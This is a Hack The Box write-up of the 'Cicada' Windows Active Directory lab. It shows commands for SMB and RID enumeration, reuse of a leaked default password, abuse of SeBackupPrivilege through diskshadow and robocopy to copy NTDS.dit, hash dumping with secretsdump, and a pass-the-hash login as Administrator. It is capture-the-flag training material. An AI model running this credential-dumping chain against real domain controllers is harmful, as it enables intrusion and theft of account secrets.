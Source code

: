 ```yaml
---
layout: post
title: Cicada - HackTheBox
date: 2024-11-13 19:25:40
description: Writeup for a Box in HackTheBox
tags: windows
categories: htb
---
```


# Cicada  

**Author:** p4pa  
**Platform:** Hack The Box (Easy)  

## Reconnaissance

### NMAP

Starting with **Nmap**, I scanned the target to identify any open ports and services. This would guide my initial approach, helping me focus on the services that might allow further access.

```bash
nmap -Pn 10.10.11.35
```

This scan revealed a range of open ports, suggesting a **Windows environment** with possible Active Directory (AD) involvement, given the presence of SMB, LDAP, and Kerberos ports:

```bash
PORT     STATE SERVICE
53/tcp   open  domain            # DNS
88/tcp   open  kerberos-sec      # Kerberos
135/tcp  open  msrpc             # RPC
139/tcp  open  netbios-ssn       # NetBIOS
389/tcp  open  ldap              # LDAP
445/tcp  open  microsoft-ds      # SMB
464/tcp  open  kpasswd5          # Kerberos password change
593/tcp  open  http-rpc-epmap    # HTTP RPC endpoint mapper
3268/tcp open  globalcatLDAP     # Global Catalog LDAP
3269/tcp open  globalcatLDAPssl  # Global Catalog LDAP over SSL
```

To gain more insight, I ran an **Nmap service scan** on these ports, aiming to detect version details and confirm any AD clues.

```bash
nmap -p 53,88,135,389,445,464,593,3268,3269 -sV 10.10.11.35 -Pn
```

---

### LDAP and SMB

I started with **LDAP** as it can sometimes allow anonymous binding, giving access to AD information. Here, however, **anonymous bind was denied**, indicating that authentication was required.

```bash
ldapsearch -H ldap://10.10.11.35:389 -x
```

Next, I explored **SMB**. Using `smbclient`, I listed available shares and tried accessing them without credentials. This worked for several shares, but only **HR** allowed anonymous access.

```bash
smbclient -L //10.10.11.35 -N
```

Listing the contents of `HR`, I found a file called *"Notice from HR.txt"*:

```bash
smb: \> ls
Notice from HR.txt
```

Opening it revealed what appeared to be **default credentials** for new hires:

```plaintext
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
```

This was promising, as it implied we might have found a valid **AD account credential**.

### RPC Enumeration

With this initial password in hand, I turned to **RPC**. First, I attempted **anonymous enumeration** via `rpcclient`:

```bash
rpcclient -U "" 10.10.11.35
```

However, I didn’t have the required permissions for user enumeration as an anonymous user. Using the **default HR credentials**, I was able to log in successfully, though I still couldn’t enumerate all users without higher permissions.

### HTTP and RPC Endpoint Analysis

The **HTTP endpoint on port 593** was notable as it provided **RPC over HTTP**—an older service that can sometimes leak endpoint information. Running a scan revealed multiple endpoints, including:

- **LiveIdSvc RPC** - potentially related to Microsoft account authentication.
- **Group Policy RPC Interface** - could be useful if it holds misconfigured policies.
- **MS NT Directory DRS Interface** - ties into AD replication, hinting that this machine might indeed be a domain controller.

---

## SMB User Enumeration with NXC

At this point, I reached out to a friend ([Co3lho](https://github.com/Co3lho22)) who recommended **NXC**, a helpful tool for SMB enumeration, especially within AD environments. NXC’s **RID-brute** functionality can reveal domain users by brute-forcing their relative IDs (RIDs).

```bash
nxc smb -u 'asdf' -p '' --rid-brute 20000 10.10.11.35
```

The enumeration yielded several accounts, including **michael.wrightson**. I attempted to log in using the **HR default password**:

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

After gaining access with Michael’s credentials, I used **NXC to enumerate other users**. This resulted in the discovery of **David Orelious’s credentials**:

- Username: `david.orelious`
- Password: `aRt$Lp#7t*VQ!3`

Testing David’s login on SMB, I found he had access to a **DEV share**, where I discovered a **backup script**. Reviewing this script yielded even more credentials:

```plaintext
emily.oscars
Q!3@Lp#M6b*7t*Vt
```

---

## Privilege Escalation and Reverse Shell

With **Emily Oscars’ credentials** in hand, I decided to try for a remote session with **Evil-WinRM**.

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

After logging in, I checked her **privileges** using `whoami /priv`. The output showed **SeBackupPrivilege** and **SeRestorePrivilege**, which are essential for accessing and modifying files usually restricted to admins:

```plaintext
SeBackupPrivilege
SeRestorePrivilege
```

### Directory Discovery and Privilege Escalation with SeBackupPrivilege

Having **SeBackupPrivilege** meant I could attempt to access otherwise restricted system files, like `NTDS.dit`, which holds AD data. To exploit this, I wrote a **diskshadow script** to mount the C drive:

```plaintext
set metadata C:\Windows\Temp\meta.cab
add volume C: alias cdrive
expose %cdrive% E:
```

Using **diskshadow** with this script allowed me to mount the drive for backup:

```bash
diskshadow /s backup_script.txt
```

### Extracting NTDS.dit with Robocopy

Once mounted, I used **Robocopy** to copy `NTDS.dit` and acquire **encrypted AD user data**:

```bash
robocopy /b E:\Windows\ntds . ntds.dit
```

I also needed the **SYSTEM registry hive** to decrypt these hashes, so I saved it using the **reg save** command:

```bash
reg save hklm\system C:\Users\emily.oscars.CICADA\Documents\system.bak
```

### Dumping Administrator Hash

I downloaded `ntds.dit` and `system.bak`, then used **Impacket’s secretsdump** to extract the **Administrator NTLM hash**:

```bash
impacket.secretsdump -ntds ntds.dit -system system.bak local
```

Finally, with the Administrator hash, I logged in using Evil-WinRM to access the Administrator account:

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H <hash>
```

**Flag:** The **root flag** was located in `root.txt`.
